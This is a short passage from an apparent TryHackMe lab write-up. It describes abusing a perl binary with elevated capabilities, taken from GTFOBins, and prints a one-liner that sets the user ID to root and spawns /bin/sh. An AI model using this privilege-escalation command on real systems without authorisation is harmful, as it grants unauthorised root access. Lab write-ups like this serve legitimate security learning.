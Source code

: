 
It uses pearl, So im going to use [GTFObins](https://gtfobins.github.io/) to see the capabilities, search for ``` perl ``` just use this part.



```

$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

```



![vmware_hZ5sb0zTbF](https://github.com/Renat9s/tryhackme/assets/126417250/2212b7c1-1fee-4cad-9394-3749bdbd1682)


Happy hacking < 3
